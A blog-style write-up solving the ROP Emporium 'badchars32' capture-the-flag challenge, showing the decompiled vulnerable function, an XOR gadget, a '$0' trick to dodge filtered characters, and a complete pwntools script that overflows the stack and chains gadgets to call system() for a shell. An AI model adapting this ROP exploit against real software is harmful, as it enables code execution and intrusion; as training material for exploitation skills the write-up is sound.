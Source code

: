 ```yaml
---
layout: post
title: ROP Emporium - badchars32
---
```


### Instruction
An arbitrary write challenge with a twist; certain input characters get mangled before finding their way onto the stack. Find a way to deal with this and craft your exploit.

### Prev step to overflow stack
<https://bhrdn.github.io/ROP-Emporium-ret2win32/>

### Prev step to get addr data section
<https://bhrdn.github.io/ROP-Emporium-write432/>

### Check vuln function
```c
void pwnme(void)
{
  char *__s;
  size_t __n;
  undefined auStack44 [40];
  
  __s = (char *)malloc(0x200);
  if (__s != (char *)0x0) {
    memset(__s,0,0x200);
    memset(auStack44,0,0x20);
    puts("badchars are: b i c / <space> f n s");
    printf("> ");
    __s = fgets(__s,0x200,stdin);
    __n = nstrlen(__s,0x200);
    checkBadchars(__s,__n);
    memcpy(auStack44,__s,__n);
    free(__s);
    return;
  }
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

### XOR function to bypass badchars
```c
void usefulGadgets(void)
{
  byte in_CL;
  byte *unaff_EBX;
  
  *unaff_EBX = *unaff_EBX ^ in_CL;
  return;
}
```

### Why not bypass badchars with bash special params 💃💃
- Badchars: [ 'b', 'i', 'c', '/', ' ', 'f', 'n', 's' ]

```c
#include <stdio.h>

int main()
{
    system("$0");
    return 0;
}
```
- Reference: <https://www.gnu.org/software/bash/manual/html_node/Special-Parameters.html>

### Payload
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('badchars32')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()

payload = '\x90' * cyclic_find('laaa')
command = '${0}'

DATA_START = 0x804a038

## gadgets to write datas
POP_ESI_POP_EDI = 0x08048899
MOV_EDI_ESI = 0x08048893

rop = ROP(exe)
rop.raw(POP_ESI_POP_EDI)
rop.raw(command)
rop.raw(DATA_START)
rop.raw(MOV_EDI_ESI)

rop.system(DATA_START)

io.sendline(payload + rop.__str__())
io.interactive()
```